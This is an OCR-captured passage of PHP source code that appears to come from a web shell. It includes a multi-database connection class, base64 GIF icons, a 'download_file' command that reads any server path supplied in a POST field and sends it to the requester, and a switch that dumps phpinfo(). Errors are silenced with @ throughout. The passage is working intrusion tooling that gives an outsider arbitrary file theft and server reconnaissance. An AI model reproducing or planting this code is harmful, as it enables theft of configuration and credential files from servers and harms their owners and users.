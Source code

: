      @mssql_close($this-&gt;connection);
    break;
    case 'PostgreSQL':
     @pg_close($this-&gt;connection);
    break;
    case 'Oracle':
     @oci_close($this-&gt;connection);
    break;
    }
  }
 function affected_rows()
  {
   switch($this-&gt;db)
    {
          case 'MySQL':
           return @mysql_affected_rows($this-&gt;res);
    break;
    case 'MSSQL':
     return @mssql_affected_rows($this-&gt;res);
    break;
    case 'PostgreSQL':
     return @pg_affected_rows($this-&gt;res);
    break;
    case 'Oracle':
     return @ocirowcount($this-&gt;res);
    break;
    default:
     return 0;
    break;
    }
  }
 }
if(isset($_GET['img'])&&!empty($_GET['img']))
 {
 $images = array();
 $images[1]='R0lGODlhBwAHAIAAAAAAAP///yH5BAEAAAEALAAAAAAHAAcAAAILjI9pkODnYohUhQIAOw==';
 $images[2]='R0lGODlhBwAHAIAAAAAAAP///yH5BAEAAAEALAAAAAAHAAcAAAILjI+pwA3hnmlJhgIAOw==';
 @ob_clean();
 header("Content-type: image/gif");
 echo base64_decode($images[$_GET['img']]);
 die();
 }
if(isset($_POST['cmd']) && !empty($_POST['cmd']) && $_POST['cmd']=="download_file" && !empty($_POST['d_name']))
 {
  if(!$file=@fopen($_POST['d_name'],"r")) { echo re($_POST['d_name']); $_POST['cmd']=""; }
  else
   {
    @ob_clean();
    $filename = @basename($_POST['d_name']);
    $filedump = @fread($file,@filesize($_POST['d_name']));
    fclose($file);
    $content_encoding=$mime_type='';
    compress($filename,$filedump,$_POST['compress']);
    if (!empty($content_encoding)) { header('Content-Encoding: ' . $content_encoding); }
    header("Content-type: ".$mime_type);
    header("Content-disposition: attachment; filename=\"".$filename."\";");
    echo $filedump;
    exit();
   }
 }
if(isset($_GET['phpinfo'])) { echo @phpinfo(); echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die(); }
